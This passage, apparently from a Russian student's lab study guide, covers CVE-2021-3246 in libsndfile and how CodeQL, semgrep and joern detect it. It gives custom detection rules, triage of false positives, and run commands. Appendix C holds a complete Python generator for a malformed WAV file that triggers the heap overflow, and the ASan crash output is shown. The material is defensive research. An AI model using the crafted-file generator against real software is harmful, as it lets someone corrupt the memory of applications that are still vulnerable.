`insecure-use-printf-fn` (`g72x_test.c:78`, тест), два `double-free` (`alac.c:871` — ложное, `test_conversions.c:88` — тест), два `use-after-free` (`wavlike.c:332`, `:346` — ложные), `insecure-use-strcat-fn` и `insecure-use-string-copy-fn` (`common.h:991`, `:997` — макросы). Истинных находок в самой библиотеке среди них нет.

**17. Почему `double-free` в `alac.c` — ложное?**
В функции есть успешный путь `free(pakt_data); return info;` и путь ошибки `FreeExit: free(pakt_data); free(info);`. Они взаимоисключающие: `goto FreeExit` стоит до успешного `free`, после него управление не возвращается. semgrep видит два вызова `free` и не различает пути.

**18. Что такое CPG?**
Code Property Graph — объединение AST, CFG и графа зависимостей по данным и управлению. Для C его строит c2cpg. Запросы joern ходят по узлам и рёбрам этого графа.

**19. Почему joern не нашёл CVE штатным набором?**
В базе 58 запросов, для C с меткой default — 16. Среди них нет запроса про слабую проверку `blockalign` в MS ADPCM. Срабатывания в `ms_adpcm.c` — это Copy loop на цикле декодера, который не проверяет границу и не доказывает переполнение.

**20. Что такое Copy loop и почему 293 срабатывания?**
Эвристика: помечает запись в элемент массива, если индекс встречается в заголовке цикла `for`. Любой цикл кодека, который пишет отсчёт в буфер и увеличивает индекс, попадает в отчёт. В libsndfile таких циклов много: ALAC, G.72x, GSM, IMA, MS ADPCM, NMS ADPCM. Это не 293 уязвимости.

**21. Как работает ваше правило в каждом инструменте?**
CodeQL: ограничение функции по имени и поиск `if` с `<`, где левый операнд — `blockalign`. semgrep: `pattern-inside` функции плюс текстовый шаблон `if (blockalign < 7 * $CHANNELS)`. joern: метод `wavlike_msadpcm_init`, его `if`, первый ребёнок AST условия — `blockalign`, второй начинается с `7 *`.

**22. Почему все три правила дают 1 на 1.0.30 и 0 на 1.1.0?**
В 1.0.30 есть условие `blockalign < 7 * channels`. В 1.1.0 оно заменено на `samplesperblock < 7 * channels` и `2 * blockalign < samplesperblock * channels`. Все три правила ищут первую форму, поэтому на исправленной версии молчат. Совпадение результатов на двух версиях — проверка качества сигнатуры.

**23. В чём причина CVE?**
В согласовании размеров. Для extensible-файла `samplesperblock` читается из `wValidBitsPerSample` через объединение `WAV_FMT`. Проверка каналов 1–2 есть только для обычного MS ADPCM, для extensible её нет. Старая проверка смотрит только на `blockalign`. В итоге под сэмплы выделяется `channels * samplesperblock` элементов, а декодер пишет больше.

**24. Почему 226 каналов, 2592 и 10?**
Нужно, чтобы `blockalign` прошёл проверку `>= 7 * channels`, `count` совпал с `samplesperblock`, а декодер вышел за буфер. При `channels = 226` и `blockalign = 2592`: `2592 >= 1582`, `count = 2 * (2592 - 6 * 226) / 226 = 2 * 1236 / 226 = 10`. `samplesperblock = 10` — равенство выполняется. При этом под сэмплы выделяется 2260 `short`, а декодер пишет 5156 значений.

**25. Почему выделено 9428 байт и почему первая запись за границей на 4686?**
`sizeof(MSADPCM_PRIVATE)` = 56, `pmssize = 56 + 2592 + 3 * 226 * 10 = 9428`. После заголовка остаётся `(9428 - 56) / 2 = 4686` элементов `short` с индексами 0…4685. Декодер начинает с `sampleindx = 2 * 226 = 452` и пишет 5156 значений, поэтому первая запись за границу — индекс 4686. Всего за границу уходят 922 `short`.

**26. Почему падение в `msadpcm_decode_block`, а не в `wavlike_msadpcm_init`?**
`wavlike_msadpcm_init` в режиме чтения сам вызывает `msadpcm_decode_block (psf, pms)` в конце инициализации, строка 171. Поэтому стек ASan идёт от `wavlike_msadpcm_init` к декодеру, а сама запись — в цикле распаковки на строке 279.

**27. Что доказывает PoC и чего он не доказывает?**
Доказывает, что на 1.0.30 конкретный файл вызывает запись за границу выделенного объекта, а на 1.1.0 отклоняется. Не доказывает выполнение кода и не является эксплойтом: для эксплуатации нужны подходящая раскладка кучи, allocator и сценарий в приложении. CVE говорит, что выполнение кода возможно, но PoC этого не показывает.

**28. Почему 1.1.0 отклоняет файл?**
Первая новая проверка: `samplesperblock < 7 * channels`. Для PoC `10 < 1582` — истина, функция возвращает `SFE_INTERNAL` до `calloc` и до декодера. Вторая проверка `2 * blockalign < samplesperblock * channels` тоже отклонила бы файл, но до неё дело не доходит.

**29. Можно ли использовать эти правила в CI?**
Да, как быстрый сигнальный барьер: CodeQL и semgrep хорошо ложатся в pipeline, joern требует JDK и дольше. Но правила узкие: они ловят конкретную форму условия, а не любой дефект согласования размеров. В CI их стоит дополнять штатными наборами, baseline и синтетическими тестами.

**30. Какие ограничения у работы и что бы вы добавили?**
Одна CVE, сигнатурные правила, нет доказательства эксплуатации, сравнение только 1.0.30 и 1.1.0, один сценарий PoC, шумные штатные наборы, нет CI и baseline. Добавил бы dataflow-правило CodeQL от заголовка WAV до записи, semgrep taint-режим, оформление joern-правила через `Query.make`, синтетические тесты и запуск в CI.

---

## 7. Границы работы: что честно сказать

1. **Одна CVE.** Исследуется только CVE-2021-3246; другие дефекты libsndfile не разбираются до конца.
2. **Сигнатурные правила.** Все три правила ищут конкретную форму `blockalign < 7 * ...`. Если код перепишут, правило перестанет срабатывать, даже если ошибка останется.
3. **Нет доказательства эксплуатации.** Правила находят форму, PoC и ASan доказывают выход за границу, но не выполнение кода.
4. **Две версии.** Сравниваются 1.0.30 и 1.1.0; 1.0.31 и дистрибутивные патчи отдельно не проверялись (хотя в теге 1.0.31 проверка та же).
5. **Один сценарий PoC.** WAV/MS ADPCM и `sndfile-info`; другие приложения и форматы не проверялись.
6. **Шумные штатные наборы.** 290 срабатываний CWE-190 и 293 Copy loop — это шум, а не 290 и не 293 уязвимости.
7. **Нет CI.** Прогон ручной; в реальном проекте его стоит повесить на push/merge request.
8. **Нет baseline.** Не считается, сколько находок было в предыдущей версии и сколько исчезло.
9. **Нет других анализаторов.** Только CodeQL, semgrep и joern; Clang Static Analyzer, Coverity, PVS-Studio не сравнивались.
10. **Нет автоматических тестов правил.** Правила проверены прогоном на двух версиях, но не на синтетических примерах.

Честные оговорки:

- `p/c` содержит два правила; отсутствие находок не означает, что код чистый.
- `p/security-audit` даёт ложные `use-after-free` и `double-free`; их нужно разбирать вручную.
- CWE-457 в `common.c:57` — ложное срабатывание из-за статического обнуления.
- joern Copy loop — эвристика, а не поиск переполнения.
- Собственные правила узкие: это компромисс между точностью и полнотой.
- PoC вызывает падение, но не является эксплойтом.
- Числа зависят от версий: CodeQL 2.27.3, semgrep 1.182.1, joern 4.0.669.

---

## 8. Шпаргалка

### 8.1. Команды

```sh
# Полный прогон
./scripts/run-all.sh

# По шагам
./scripts/01-fetch.sh
./scripts/02-build.sh
./scripts/03-poc.sh
./scripts/04-codeql.sh
./scripts/05-semgrep.sh
./scripts/06-joern.sh
./scripts/07-screenshots.sh

# PoC вручную
python3 poc/gen_msadpcm_poc.py
ASAN_OPTIONS=detect_leaks=0 work/build/asan-1.0.30/programs/sndfile-info poc/msadpcm_poc.wav
ASAN_OPTIONS=detect_leaks=0 work/build/asan-1.1.0/programs/sndfile-info poc/msadpcm_poc.wav

# Своё правило CodeQL
work/tools/codeql/codeql database analyze work/db-1.0.30 \
  rules/codeql/msadpcm-block-size.ql \
  --format=sarif-latest --output=/tmp/codeql-1.0.30.sarif --threads=4

# Своё правило semgrep
work/venvs/semgrep/bin/semgrep --config rules/semgrep/msadpcm-block-size.yaml \
  --no-git-ignore work/src/libsndfile-1.0.30/src/ms_adpcm.c

# Своё правило joern
export JAVA_HOME="$PWD/work/tools/jdk-21"
export PATH="$JAVA_HOME/bin:$PATH"
work/tools/joern/joern-cli/joern --script rules/joern/msadpcm-block-size.sc \
  --param inputPath="$PWD/work/src/libsndfile-1.0.30/src" \
  --param outFile=/tmp/joern-1.0.30.txt

# Сводки
cat results/versions.txt
cat results/codeql-summary.txt
cat results/semgrep-summary.txt
cat results/joern-summary.txt
cat results/joern-custom-summary.txt

# Повторная сборка с нуля
rm -rf work/build work/db-1.0.30 work/db-1.1.0
./scripts/02-build.sh
./scripts/04-codeql.sh
```

### 8.2. Карта кода

| Что | Где |
|---|---|
| Константы PoC (226, 2592, 10) | `poc/gen_msadpcm_poc.py:21-25` |
| Сборка WAV | `poc/gen_msadpcm_poc.py:30-59` |
| `wavlike_msadpcm_init` | `src/ms_adpcm.c:118-192` |
| Проверка `blockalign` | `src/ms_adpcm.c:131` |
| `pmssize` и `calloc` | `src/ms_adpcm.c:136-138` |
| Проверка `count` | `src/ms_adpcm.c:163` |
| Вызов декодера из init | `src/ms_adpcm.c:171` |
| `msadpcm_decode_block` | `src/ms_adpcm.c:211-312` |
| `sampleindx = 2 * channels` | `src/ms_adpcm.c:276` |
| Запись за границу | `src/ms_adpcm.c:279-280` |
| Разбор обычного MS ADPCM | `src/wavlike.c:246-300` |
| Разбор extensible | `src/wavlike.c:309-400` |
| Вызов init из `wav_open` | `src/wav.c:258` |
| `framesperblock` для extensible | `src/wav.c:673-678` |
| Структуры `WAV_FMT` | `src/wavlike.h:190-296` |
| Новые проверки 1.1.0 | `src/ms_adpcm.c:132, 137` |
| Правило CodeQL | `rules/codeql/msadpcm-block-size.ql` |
| Правило semgrep | `rules/semgrep/msadpcm-block-size.yaml` |
| Правило joern | `rules/joern/msadpcm-block-size.sc` |
| Сводки и логи | `results/` |

### 8.3. Глоссарий

| Термин | Значение |
|---|---|
| SAST | статический анализ кода без запуска |
| DAST | динамический анализ запущенной программы |
| CWE | класс ошибок |
| CVE | конкретная уязвимость в продукте |
| CVSS | оценка серьёзности |
| AST | дерево синтаксиса |
| CFG | граф управления |
| IR | промежуточное представление |
| SSA | форма с одним присваиванием на переменную |
| Taint | метка «недоверенные данные» |
| Source / sink | источник / сток данных |
| Sanitizer | проверка, снимающая метку |
| Path-problem | запрос с путём от источника до стока |
| SARIF | формат обмена результатами анализа |
| CPG | Code Property Graph |
| c2cpg | фронтенд joern для C |
| Copy loop | эвристика joern на циклы копирования |
| ASan | AddressSanitizer |
| False positive | ложное срабатывание |
| False negative | пропуск |
| Precision / recall | точность / полнота |
| Триаж | ручной разбор срабатываний |
| MS ADPCM | адаптивное дифференциальное кодирование Microsoft |
| `blockalign` | размер блока в байтах |
| `samplesperblock` | число сэмплов в блоке |
| `WAVE_FORMAT_EXTENSIBLE` | расширенный заголовок WAV с GUID подформата |

### 8.4. Что почитать в проекте

- `README.md` — краткий итог, состав каталога, воспроизведение.
- `report.md` — главы 2–3 отчёта, все числа и разборы.
- `Документация_разработки_лаб4.md` — подробная история решений, теория, диагностика.
- `rules/` — три правила.
- `scripts/` — как всё запускается.
- `results/` — сырые результаты, на которые ссылаются числа.
- `screenshots/` — готовые картинки для отчёта.

---

## Приложение A. Рисунки



**Рисунок A.1.** Версии инструментов и проекта.



**Рисунок A.2.** PoC: падение 1.0.30 и отказ 1.1.0.



**Рисунок A.3.** CodeQL: пять CWE и своё правило.



**Рисунок A.4.** semgrep: штатные наборы и своё правило.



**Рисунок A.5.** joern: штатный набор и своё правило.



**Рисунок A.6.** joern: своё правило на 1.0.30 и 1.1.0.

---

## Приложение B. Полные тексты правил

### B.1. CodeQL

```ql
/**
 * @name CVE-2021-3246: недостаточная проверка размера блока MS ADPCM
 * @description В wavlike_msadpcm_init проверяется только blockalign,
 *              но не samplesperblock. Из-за этого msadpcm_decode_block
 *              может записать больше сэмплов, чем выделено в calloc.
 * @kind problem
 * @problem.severity error
 * @security-severity 8.8
 * @id cpp/lab4-msadpcm-block-size
 * @tags security
 *       external/cwe/cwe-787
 *       external/cwe/cwe-122
 */

import cpp

from IfStmt check, BinaryOperation lt
where
  check.getEnclosingFunction().hasName("wavlike_msadpcm_init") and
  lt = check.getCondition() and
  lt.getOperator() = "<" and
  lt.getLeftOperand().toString() = "blockalign"
select check,
  "Проверка размера блока MS ADPCM использует blockalign и не ограничивает samplesperblock (CVE-2021-3246)"
```

`rules/codeql/qlpack.yml`:

```yaml
name: lab4/codeql-rules
version: 0.0.1
dependencies:
  codeql/cpp-all: "*"
```

### B.2. semgrep

```yaml
rules:
  - id: lab4-msadpcm-block-size
    languages: [c]
    severity: ERROR
    message: >
      MS ADPCM: проверяется только blockalign, а samplesperblock не ограничен.
      Это позволяет выйти за границы буфера в msadpcm_decode_block
      (CVE-2021-3246 в libsndfile 1.0.30).
    metadata:
      cwe:
        - "CWE-787: Out-of-bounds Write"
      references:
        - https://nvd.nist.gov/vuln/detail/CVE-2021-3246
        - https://github.com/libsndfile/libsndfile/issues/687
    patterns:
      - pattern-inside: |
          int wavlike_msadpcm_init(...)
          {
            ...
          }
      - pattern: |
          if (blockalign < 7 * $CHANNELS)
          {
            ...
          }
```

### B.3. joern

```scala
// Ищет слабую проверку размера блока MS ADPCM (CVE-2021-3246):
// внутри wavlike_msadpcm_init условие вида `blockalign < 7 * ...`.
// В libsndfile 1.1.0 слева стоит samplesperblock или `2 * blockalign`,
// поэтому правило на исправленной версии молчит.

@main def main(inputPath: String, outFile: String) = {
  importCode.c(inputPath)

  val hits = cpg.method
    .nameExact("wavlike_msadpcm_init")
    .controlStructure
    .controlStructureType(ControlStructureTypes.IF)
    .filter { cs =>
      cs.condition.l.exists { cond =>
        val kids = cond.astChildren.l
        kids.length >= 2 &&
        kids.head.code == "blockalign" &&
        kids(1).code.startsWith("7 *")
      }
    }
    .map { cs =>
      val file = cs.file.name.l.headOption.getOrElse("?")
      val line = cs.lineNumber.map(_.toString).getOrElse("?")
      val code = cs.condition.code.l.headOption.getOrElse(cs.code)
      s"$file:$line: $code"
    }
    .l
    .distinct
    .sorted

  val text = s"находок: ${hits.size}\n" + hits.map(h => s"$h\n").mkString
  java.nio.file.Files.writeString(java.nio.file.Paths.get(outFile), text)
  println(text)
}
```

---

## Приложение C. Полный генератор PoC

```python
#!/usr/bin/env python3
"""Генератор PoC для CVE-2021-3246 в libsndfile 1.0.30.

Уязвимость: heap-buffer-overflow в msadpcm_decode_block (src/ms_adpcm.c).
Файл — WAVE_FORMAT_EXTENSIBLE с subformat MS ADPCM. libsndfile 1.0.30
для extensible-формата берёт samplesperblock из объединения WAV_FMT, где
это поле пересекается с wValidBitsPerSample. Проверка в
wavlike_msadpcm_init смотрит только blockalign и не ограничивает
samplesperblock, поэтому декодер пишет больше сэмплов, чем выделено
под channels * samplesperblock.

Параметры подобраны так, чтобы старый код гарантированно вышел за буфер:
226 каналов, blockalign 2592, samplesperblock 10.
"""

import argparse
import struct
from pathlib import Path

# GUID подформата MS ADPCM: 00000002-0000-0010-8000-00AA00389B71
MS_ADPCM_GUID = bytes.fromhex("0200000000001000800000aa00389b71")

CHANNELS = 226
BLOCK_ALIGN = 2592
SAMPLES_PER_BLOCK = 10
SAMPLE_RATE = 8000
BITS_PER_SAMPLE = 4


def build_wav() -> bytes:
    # WAVEFORMATEXTENSIBLE: 18 байт WAVEFORMATEX + 22 байта расширения.
    fmt = struct.pack(
        "<HHIIHH",
        0xFFFE,              # wFormatTag = WAVE_FORMAT_EXTENSIBLE
        CHANNELS,
        SAMPLE_RATE,
        SAMPLE_RATE * BLOCK_ALIGN,  # nAvgBytesPerSec (для PoC не важно)
        BLOCK_ALIGN,         # nBlockAlign
        BITS_PER_SAMPLE,     # wBitsPerSample
    )
    extension = (
        struct.pack("<HI", SAMPLES_PER_BLOCK, 0)  # wValidBitsPerSample, dwChannelMask
        + MS_ADPCM_GUID
    )
    fmt += struct.pack("<H", len(extension)) + extension

    data = bytes(BLOCK_ALIGN)  # сам блок; содержимое для переполнения не важно

    body = (
        b"WAVE"
        + b"fmt "
        + struct.pack("<I", len(fmt))
        + fmt
        + b"data"
        + struct.pack("<I", len(data))
        + data
    )
    return b"RIFF" + struct.pack("<I", len(body)) + body


def main() -> None:
    parser = argparse.ArgumentParser(description=__doc__)
    parser.add_argument(
        "-o",
        "--output",
        type=Path,
        default=Path(__file__).with_name("msadpcm_poc.wav"),
        help="куда записать WAV (по умолчанию рядом со скриптом)",
    )
    args = parser.parse_args()
    blob = build_wav()
    args.output.write_bytes(blob)
    print(f"записан {args.output} ({len(blob)} байт)")


if __name__ == "__main__":
    main()
```

---

## Приложение D. Уязвимый код и исправление

### D.1. libsndfile 1.0.30, `src/ms_adpcm.c:131`

```c
if (blockalign < 7 * psf->sf.channels)
{   psf_log_printf (psf, "*** Error blockalign (%d) should be > %d.\n",
                    blockalign, 7 * psf->sf.channels) ;
    return SFE_INTERNAL ;
    } ;
```

### D.2. libsndfile 1.0.30, `src/ms_adpcm.c:136-138`

```c
pmssize = sizeof (MSADPCM_PRIVATE) + blockalign
        + 3 * psf->sf.channels * samplesperblock ;

if (! (psf->codec_data = calloc (1, pmssize)))
    return SFE_MALLOC_FAILED ;
```

### D.3. libsndfile 1.0.30, `src/ms_adpcm.c:276-281`

```c
sampleindx = 2 * pms->channels ;
while (blockindx < pms->blocksize)
{   bytecode = pms->block [blockindx++] ;
    pms->samples [sampleindx++] = (bytecode >> 4) & 0x0F ;
    pms->samples [sampleindx++] = bytecode & 0x0F ;
    } ;
```

### D.4. libsndfile 1.1.0, `src/ms_adpcm.c:132-140`

```c
/* There's 7 samples per channel in the preamble of each block */
if (samplesperblock < 7 * psf->sf.channels)
{   psf_log_printf (psf, "*** Error samplesperblock (%d) should be >= %d.\n",
                    samplesperblock, 7 * psf->sf.channels) ;
    return SFE_INTERNAL ;
    } ;

if (2 * blockalign < samplesperblock * psf->sf.channels)
{   psf_log_printf (psf, "*** Error blockalign (%d) should be >= %d.\n",
                    blockalign, samplesperblock * psf->sf.channels / 2) ;
    return SFE_INTERNAL ;
    } ;
```

---

## Приложение E. Сводки результатов

### E.1. CodeQL

```text
CodeQL, libsndfile 1.0.30: пять штатных запросов

запрос                                            находок
cpp/integer-overflow-tainted                          290
cpp/unclear-array-index-validation                      8
cpp/conditionally-uninitialized-variable                2
cpp/suspicious-add-sizeof                               1
cpp/unbounded-write                                     0
ИТОГО                                                 301

Своё правило cpp/lab4-msadpcm-block-size:
  libsndfile 1.0.30: 1 находка
  libsndfile 1.1.0: 0 находок
```

### E.2. semgrep

```text
semgrep, libsndfile 1.0.30

p/c (штатный C-набор): 0 находок (2 правил, 130 файлов)
p/default: 0 находок (336 правил, 144 файлов)
p/security-audit: 7 находок (88 правил, 144 файлов)

p/security-audit по правилам:
   2  c.lang.security.double-free.double-free
   2  c.lang.security.use-after-free.use-after-free
   1  c.lang.security.insecure-use-printf-fn.insecure-use-printf-fn
   1  c.lang.security.insecure-use-strcat-fn.insecure-use-strcat-fn
   1  c.lang.security.insecure-use-string-copy-fn.insecure-use-string-copy-fn

Своё правило lab4-msadpcm-block-size:
  libsndfile 1.0.30: 1 находок
  libsndfile 1.1.0: 0 находок
```

### E.3. joern

```text
joern-scan --language c, libsndfile 1.0.30, каталог src/
строк Result: 368

находок  балл  запрос
    293  2.0   Copy loop detected
     42  2.0   Signed Shift May Cause Undefined Behavior
     18  3.0   Array access at fixed offset but sufficient length check not determined
      6  2.0   Truncation in assignment involving `strlen` call
      6  3.0   Two file operations on the same path can act on different files
      2  3.0   Unchecked read/recv/malloc
      1  4.0   Non-constant format string passed to printf/sprintf/vsprintf

CVE-2021-3246 в штатном наборе нет.
Своё правило, 1.0.30:
находок: 1
ms_adpcm.c:131: blockalign < 7 * psf->sf.channels
Своё правило, 1.1.0:
находок: 0
```

### E.4. PoC

```text
libsndfile 1.0.30 + ASan (PoC 2660 байт):
==...==ERROR: AddressSanitizer: heap-buffer-overflow ...
WRITE of size 2 ...
    #0 ... in msadpcm_decode_block .../src/ms_adpcm.c:279
allocated by thread T0 here:
SUMMARY: AddressSanitizer: heap-buffer-overflow .../src/ms_adpcm.c:279 in msadpcm_decode_block

libsndfile 1.1.0 + ASan (тот же файл):
Error : Not able to open input file .../poc/msadpcm_poc.wav.
*** Error samplesperblock (10) should be >= 1582.
```

---

## Приложение F. Что стоит поправить в отчёте перед сдачей

Этот раздел — для тебя, не для защиты. Он не меняет `report.md` и PDF, а фиксирует расхождения, которые я нашёл при перепроверке.

| № | Где | Что не так | Как правильно |
|---|---|---|---|
| 1 | `report.md:99`, `Документация…:801` | libsndfile 1.0.30 назван «2021» | тег `v1.0.30` — 19.09.2020, релиз 18.09.2020 |
| 2 | `report.md:76` | «оба срабатывания CWE-457 истинные» | `common.c:57` — ложное: `max` объявлена `static`, обнуляется при старте; истинное только `sndfile-info.c:256` |
| 3 | `report.md:292, 308, 521` | double-free в `alac.c:871` «требует проверки» | ложное: два `free(pakt_data)` на взаимоисключающих путях |
| 4 | `mbks_lab_4.pdf`, стр. 2 | оглавление от шаблона: «3.1 Название подраздела», стр. 3–10, разделы «Теоретические сведения», «Список источников», «Приложение А» | обновить оглавление под фактическую структуру |
| 5 | `mbks_lab_4.pdf`, стр. 27 | текст обрывается после первого абзаца выводов | добавить остальные 4 пункта выводов, список источников и приложение |
| 6 | `mbks_lab_4.pdf` | в тексте нумерация 2.x / 3, в оглавлении 3.x / 4 | привести к одной схеме |
| 7 | `mbks_lab_4.pdf`, стр. 14 | два «Рисунка 10»; на стр. 12–13 две подписи «Значения проверки» (рис. 5 и 6) | развести номера 10/11 и уточнить подпись рис. 6 |
| 8 | `mbks_lab_4.pdf`, стр. 6 и 9 | `sd2.c` — 14 вместо 15; «около 47 тыс. строк» вместо 56 150 | синхронизировать с `report.md` |
| 9 | отчёт | полного текста PoC с комментариями нет, только фрагмент на рисунке 7 | вставить полный генератор в приложение (он есть в приложении C этого файла) |

Все числа и факты в этом самоучителе уже даны в исправленном виде: 2020 год, CWE-457 — одно истинное и одно ложное, double-free в `alac.c` — ложное.

---

## Приложение G. Ссылки

- NVD: <https://nvd.nist.gov/vuln/detail/CVE-2021-3246>
- MITRE CVE: <https://cveawg.mitre.org/api/cve/CVE-2021-3246>
- Issue libsndfile: <https://github.com/libsndfile/libsndfile/issues/687>
- Коммит исправления: <https://github.com/libsndfile/libsndfile/commit/deb669ee8be55a94565f6f8a6b60890c2e7c6f32>
- Релиз 1.1.0: <https://github.com/libsndfile/libsndfile/releases/tag/1.1.0>
- OSS-Fuzz: <https://oss-fuzz.com/testcase-detail/5696502087024640>
- Debian DSA-4947: <https://www.debian.org/security/2021/dsa-4947>
- Gentoo GLSA 202309-11: <https://security.gentoo.org/glsa/202309-11>
- CodeQL: <https://codeql.github.com/docs/>
- semgrep: <https://semgrep.dev/docs/>
- joern: <https://joern.io/>, <https://github.com/joernio/joern>

---

Документ описывает состояние работы на 10 ноября 2026 года. Числа соответствуют `results/` и версиям из `results/versions.txt`. Если меняются версии инструментов, наборы правил или исходники libsndfile, результаты нужно перепроверить командой `./scripts/run-all.sh`.
